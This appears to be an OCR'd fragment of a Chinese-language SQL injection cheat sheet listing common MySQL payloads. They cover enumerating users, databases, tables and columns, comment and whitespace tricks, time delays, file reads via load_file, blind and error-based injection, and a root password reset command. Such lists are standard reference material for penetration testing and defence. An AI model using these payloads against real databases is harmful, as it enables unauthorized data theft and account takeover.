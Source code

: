 ```
• xp_loginconfg
```

**（2）MySQL常见Payload**

```
• Version
	– SELECT @@version
• Comment
	– SELECT 1 -- comment
	– SELECT 1 # comment
	– SELECT /*comment*/1
• Space
	– 0x9 0xa-0xd 0x20 0xa0
• Current User
	– SELECT user()
	– SELECT system_user()
	– SELECT current_role()
• List User
	– SELECT user FROM mysql.user
• Current Database
	– SELECT database()
• List Database
	– SELECT schema_name FROM information_schema.schemata
• List Tables
	– SELECT table_schema,table_name FROM information_schema.tables WHERE
table_schema != 'mysql' AND table_schema != 'information_schema'
• List Columns
	– SELECT table_schema, table_name, column_name FROM information_schema.columns
WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
• If
	– SELECT if(1=1,'foo','bar'); return ’foo’
• Ascii
	– SELECT char(0x41)
	– SELECT ascii('A')
	– SELECT 0x414243 => return ABC
• Delay
	– sleep(1)
	– SELECT BENCHMARK(1000000,MD5('A'))
• Read File
	– select @@datadir
	– select load_file('databasename/tablename.MYD')
• Blind
	– ascii(substring(str,pos,length)) & 32 = 1
• Error Based
	– select count(*),(floor(rand(0)*2))x from information_schema.tables group by
x;
	– select count(*) from (select 1 union select null union select !1)x group
by concat((select table_name from information_schema.tables limit 1),
floor(rand(0)*2))
• Change Password
	– mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword')
WHERE user='root';FLUSH PRIVILEGES;"
```
